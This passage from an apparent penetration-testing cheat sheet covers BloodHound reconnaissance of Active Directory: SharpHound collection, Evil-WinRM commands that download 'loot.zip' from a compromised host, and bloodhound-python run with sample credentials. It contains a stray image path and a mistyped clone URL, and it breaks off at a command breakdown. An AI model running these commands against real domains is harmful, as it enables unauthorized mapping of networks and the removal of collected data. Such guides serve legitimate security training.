 * Alternate JSON output example

```powershell
.\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -JSONFolder "c:\data\bloodhound"
```

#### Downloading Results via Evil-WinRM

```powershell
*Evil-WinRM* PS C:\Users\DevNull> download BloodHound.zip
```

```powershell
*Evil-WinRM* PS C:\Users\DevNull> download loot.zip
```

#### Import Collected Data into BloodHound

1. Open BloodHound

```bash
./BloodHound
```

2. Log into Neo4j using the default credentials
3. Drag and drop the ``collection.zip`` file into the BloodHound Interface

---


### BloodHound.py

**BloodHound.py** is a python based ingestor for BloodHound used to collect Active Directory data from Linux or MacOS system (no need for Windows)

#### Installation

1. clone the repository

```bash
git clone https://github.com/dirkjanm/BloodHound/py
```

```bash
cd BloodHound.py
```

2. Install dependencies

```bash
pip install -r requirements.txt
```

#### Usage Example 

```bash
bloodhound-python --dns-tcp -u devnull -p password123 -ns 192.168.29.222 -d test.local -c All
```

**Command breakdown**
